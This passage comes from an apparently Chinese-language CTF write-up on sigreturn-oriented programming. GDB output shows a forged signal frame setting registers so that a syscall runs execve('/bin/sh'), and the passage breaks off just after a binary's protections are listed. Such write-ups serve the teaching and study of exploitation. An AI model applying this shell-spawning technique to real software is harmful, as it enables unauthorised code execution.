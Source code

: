 
调试的时候可以看到 Sigreturn 后各个寄存器被设置的值，然后就能调用 execve 的系统调用了：

```gdb
──────────────────────────────────── Code ────────────────────────────────────
   0x40010a <main+34>:	mov    rax,0xf
   0x400111 <main+41>:	mov    rdi,0x0
   0x400118 <main+48>:	mov    rsp,rsi
=> 0x40011b <main+51>:	syscall
   0x40011d <main+53>:	jmp    0x40011f <main+55>
   0x40011f <main+55>:	mov    rax,0x3c
   0x400126 <main+62>:	mov    rdi,0x0
   0x40012d <main+69>:	syscall
────────────────────────────── System call info ──────────────────────────────
rt_sigreturn()
───────────────────────────────── SROP info ──────────────────────────────────
       ss_size:0x0000000000000000           rsi:0x0000000000000000
           rax:0x000000000000003b           rbp:0x0000000000000000
        eflags:0x0000000000000000           rcx:0x0000000000000000
           rip:0x000000000040011b           r13:0x0000000000000000
           cr2:0x0000000000000000           r12:0x0000000000000000
           rbx:0x0000000000000000       uc_link:0x0000000000000000
           err:0x0000000000000000        trapno:0x0000000000000000
           r10:0x0000000000000000      ss_flags:0x0000000000000000
         ss_sp:0x0000000000000000           rdi:0x0000000000600280
      uc_flags:0x0000000000000000           r14:0x0000000000000000
            r8:0x0000000000000000      selector:0x0000000000000033
            r9:0x0000000000000000           rdx:0x0000000000000000
           rsp:0x0000000000000000       oldmask:0x0000000000000000
           r11:0x0000000000000000           r15:0x0000000000000000

...

──────────────────────────────────── Code ────────────────────────────────────
   0x40010a <main+34>:	mov    rax,0xf
   0x400111 <main+41>:	mov    rdi,0x0
   0x400118 <main+48>:	mov    rsp,rsi
=> 0x40011b <main+51>:	syscall
   0x40011d <main+53>:	jmp    0x40011f <main+55>
   0x40011f <main+55>:	mov    rax,0x3c
   0x400126 <main+62>:	mov    rdi,0x0
   0x40012d <main+69>:	syscall
────────────────────────────── System call info ──────────────────────────────
execve(const char *name = 0x600280,const char *const *argv = 0x0,const char *const *envp = 0x0)
const char *name : 0x600280 --> 0x68732f6e69622f ('/bin/sh')
const char *const *argv : 0x0
const char *const *envp : 0x0
```

# Smallest

程序只开了 NX，Got 表可写、没有 Canary 保护、没开 PIE：
